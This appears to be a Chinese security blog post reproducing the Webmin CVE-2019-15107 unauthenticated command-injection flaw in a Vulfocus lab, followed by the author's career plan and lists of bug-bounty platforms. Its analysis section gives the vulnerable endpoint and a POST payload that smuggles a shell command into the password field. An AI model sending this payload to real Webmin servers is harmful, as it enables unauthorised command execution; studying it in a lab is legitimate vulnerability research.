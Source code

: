 # 原创
：  【漏洞复现-webmin-命令执行】vulfocus/webmin-cve_2019_15107

# 【漏洞复现-webmin-命令执行】vulfocus/webmin-cve_2019_15107

 <img alt="" src="https://img-blog.csdnimg.cn/2e86bda3ff034c71920f2f40732c3929.gif"/>

## 前言：

> 
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/c2dfbe518f7d43a2978e4e6f1bfd5ea1.gif" width="24"/>介绍： </h3>
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>博主：网络安全领域狂热爱好者（承诺在CSDN永久无偿分享文章）。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>殊荣：CSDN网络安全领域优质创作者，2022年双十一业务安全保卫战-某厂第一名，某厂特邀数字业务安全研究员，edusrc高白帽，vulfocus、攻防世界等平台排名100+、高校漏洞证书、cnvd原创漏洞证书等。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>擅长：对于技术、工具、漏洞原理、黑产打击的研究。
<img alt="" height="28" src="https://img-blog.csdnimg.cn/3e1c80dc452343c9b3e29c5030fa90b1.png" width="28"/>C站缘：C站的前辈，引领我度过了一个又一个技术的瓶颈期、迷茫期。
<hr/>
<h3><img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：</h3>
<img alt="" height="23" src="https://img-blog.csdnimg.cn/b1b5426baac44b97b68428245cc35d77.png" width="23"/>面向读者：对于网络安全方面的学者。 
<img alt="" height="23" src="https://img-blog.csdnimg.cn/19ea593260b84ec8b836a336326fa0cc.png" width="23"/>本文知识点（读者自测）： 
（1）拼接执行命令（√）


### <img alt="" height="24" src="https://img-blog.csdnimg.cn/9f7cfdd7c4294c9e9bff7ef35f552f0c.gif" width="24"/>导读：

> 
<h2> <img alt="" height="23" src="https://img-blog.csdnimg.cn/19e90c25b42d4b368c3c94da4b04afb0.png" width="23"/>让读者如虎添翼</h2>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|命令、代码执行博文|目标|状态
|[【漏洞复现-jupyter_notebook-命令执行】vulfocus/jupyter_notebook-cve_2019_9644](https://blog.csdn.net/qq_53079406/article/details/127491074)|发现功能点上的命令执行|已发布
|[【漏洞复现-solr-命令执行】vulfocus/solr-cve_2019_17558](https://blog.csdn.net/qq_53079406/article/details/127332723)|寻找模板（接口、配置文件）的命令执行漏洞|已发布
|[【漏洞复现-seaCms-命令执行】vulfocus/seacms-cnvd_2020_22721](https://blog.csdn.net/qq_53079406/article/details/127329791)|写入可执行文件|已发布
|[【漏洞复现-maccms-命令执行】vulfocus/maccms-cve_2017_17733](https://blog.csdn.net/qq_53079406/article/details/127328882)|参数中写入命令（加密）|已发布
|[【漏洞复现-webmin-命令执行】vulfocus/webmin-cve_2019_15107](https://blog.csdn.net/qq_53079406/article/details/127326071)|拼接执行命令|已发布
|[【漏洞复现-thinkphp-命令执行】vulfocus/thinkphp-3.2.x](https://blog.csdn.net/qq_53079406/article/details/127324775)|写入错误日志中|已发布
|[【漏洞复现-Discuz-代码执行】Discuz_CVE-2019-13956](https://blog.csdn.net/qq_53079406/article/details/127305443)|cookie中植入|已发布
|[【漏洞复现-骑士cms-代码执行】vulfocus/骑士cms_cve_2020_35339](https://blog.csdn.net/qq_53079406/article/details/127301708)|后台配置中植入命令|已发布
|更多复现漏洞将公布，敬请期待|——|——
</tbody></table>


---


**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.4、解题：](#2.4%E3%80%81%E8%A7%A3%E9%A2%98%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:36915

 提示使用https进行连接
https://123.58.224.8:36915





> 
<h3>1.2、知识:</h3>
1、寻找无需身份验证点
（得先有账号）
使用bp的插件工具进行测试


> 
<h3>1.3、描述：</h3>
Webmin  &lt;= 1.920
找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞，攻击者即可发送POST请求在目标系统中执行任意系统命令，且无需身份验证



---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
抓任意包（我抓的点击登陆时的包）

修改一：
修改请求地址
POST /password_change.cgi HTTP/1.1 
修改二：
POST提交的数据
user=rootxx&amp;pam=&amp;expired=2&amp;old=test|ls+/tmp&amp;new1=test2&amp;new2=test2





> 
<h3>2.4、解题：</h3>




---


---


​​​​​​​<img alt="" src="https://img-blog.csdnimg.cn/7d62be979184459ab44139ed85f387fe.png"/>

> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)
|雷神众测（可信众测，安恒）|[雷神众测 - BountyTeam](https://www.bountyteam.com/)
|云众可信（启明星辰）|[云众可信 - 互联网安全服务引领者](https://www.cloudcrowd.com.cn/)
|ALLSEC|[ALLSEC](https://i.allsec.cn/#/)
|360众测|[360众测平台](https://zhongce.360.cn/)
|看雪众测（物联网）|[https://ce.kanxue.com/](https://ce.kanxue.com/)
|CNVD众测平台|[网络安全众测平台](https://zc.cnvd.org.cn/)
|工控互联网安全测试平台|[CNCERT工业互联网安全测试平台](https://test.ics-cert.org.cn/)
|慢雾（区块链）|[Submit Bug Bounty - SlowMist Zone - Blockchain Ecosystem Security Zone](https://slowmist.io/bug-bounty.html)
|平安汇聚|[http://isrc.pingan.com/homePage/index](http://isrc.pingan.com/homePage/index)
</tbody></table>


<table border="1" cellpadding="1" cellspacing="1"><tbody>|互联网大厂|URL
|阿里|https://asrc.alibaba.com/#/
|腾讯|https://security.tencent.com/
|百度|https://bsrc.baidu.com/v2/#/home
|美团|https://security.meituan.com/#/home
|360|https://security.360.cn/
|网易|https://aq.163.com/
|字节跳动|https://security.bytedance.com/
|京东|https://security.jd.com/#/
|新浪|http://sec.sina.com.cn/
|微博|https://wsrc.weibo.com/
|搜狗|http://sec.sogou.com/
|金山办公|https://security.wps.cn/
|有赞|https://src.youzan.com/
</tbody></table>

<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/18b63058b35848b19967730eb49fcb45.png" width="23"/>Third Year </h3>
学习最新的知识，建全自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/7ccb45a55d5244edad5a9a1fabc55f08.png" width="23"/>目标：参与护网（每一个男孩子心中的梦想） 
时间：一般5月面试，6/7月开始（持续2-3周）
分类：国家级护网、省级护网、市级护网、重大节日护网（如：建党、冬奥等）


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year 

---

